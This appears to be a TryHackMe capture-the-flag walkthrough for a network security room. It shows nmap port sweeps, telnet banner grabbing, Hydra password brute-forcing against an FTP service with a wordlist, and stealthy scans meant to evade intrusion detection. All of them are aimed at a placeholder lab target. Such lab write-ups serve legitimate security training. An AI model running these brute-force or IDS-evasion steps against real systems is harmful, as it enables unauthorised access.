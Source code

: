  <h1>TryHackMe – Net Sec Challenge Walkthrough 🚀</h1>
  <p><a href="https://tryhackme.com/room/netsecchallenge">https://tryhackme.com/room/netsecchallenge</a></p>

  <h2>🔍 Reconnaissance</h2>
  <p>I ran a fast full TCP sweep and filtered for open ports:</p>
  <pre><code>nmap -p- --min-rate 10000 &lt;TARGET_IP&gt; | grep open</code></pre>
  <ul>
    <li>🔢 Highest open port under 10,000 → <strong>8080</strong></li>
    <li>🎯 Open port above 10,000 → <strong>10021</strong></li>
    <li>📊 Total open TCP ports → <strong>6</strong></li>
  </ul>

  <h2>🌐 HTTP Server Header Flag</h2>
  <p>Connected via Telnet on port 80 and sent a minimal HTTP request to read headers:</p>
  <pre><code>telnet &lt;TARGET_IP&gt; 80
GET / HTTP/1.1
Host: telnet

</code></pre>
  <p>The <code>Server:</code> header contained the flag 🏁.</p>

  <h2>🔑 SSH Server Header Flag</h2>
  <p>Fetched the SSH banner (includes the flag) by connecting on port 22:</p>
  <pre><code>telnet &lt;TARGET_IP&gt; 22</code></pre>

  <h2>📡 FTP Service Enumeration</h2>
  <p>FTP was hosted on a non-standard port <strong>10021</strong>. The banner exposed the version:</p>
  <pre><code>telnet &lt;TARGET_IP&gt; 10021
# Example banner:
# 220 (vsFTPd 3.0.3)
</code></pre>

  <h2>🔐 FTP Brute Force &amp; User Files</h2>
  <p>Usernames provided: <code>eddie</code> and <code>quinn</code>. Used Hydra with <code>rockyou.txt</code> against port 10021:</p>
  <pre><code>hydra -l eddie -P /usr/share/wordlists/rockyou.txt -s 10021 ftp://&lt;TARGET_IP&gt;
hydra -l quinn -P /usr/share/wordlists/rockyou.txt -s 10021 ftp://&lt;TARGET_IP&gt;</code></pre>
  <p>After finding valid creds, logged in and pulled the file containing the flag:</p>
  <pre><code>ftp &lt;TARGET_IP&gt; 10021
ls
ascii
get &lt;filename&gt;
cat &lt;filename&gt;</code></pre>

  <h2>🕵️ IDS Evasion (Covert Scan)</h2>
  <p>Goal: perform a stealthy Nmap scan to avoid IDS detection.</p>
  <p>Initial attempt (fragmented SYN) showed low detection but filtered ports:</p>
  <pre><code>nmap -sS -T2 -f -p- &lt;TARGET_IP&gt;</code></pre>
  <p>✅ The scan that unlocked the final flag was a <strong>Null scan</strong>:</p>
  <pre><code>nmap -sN &lt;TARGET_IP&gt;</code></pre>
  <p class="muted">Null scans set no TCP flags; ports typically appear as <code>open|filtered</code>, which was sufficient to trigger the room’s final flag 🏁.</p>

  <h2>🏆 Flags Summary</h2>
  <ul>
    <li>🌐 HTTP header → Flag 🏁</li>
    <li>🔑 SSH banner → Flag 🏁</li>
    <li>📡 FTP banner/version → Flag 🏁</li>
    <li>🔐 FTP user file → Flag 🏁</li>
    <li>🕵️ Null scan (<code>-sN</code>) → Final flag 🏁</li>
  </ul>

  <p>✅ Room complete! 🎉</p>

</body>
</html>
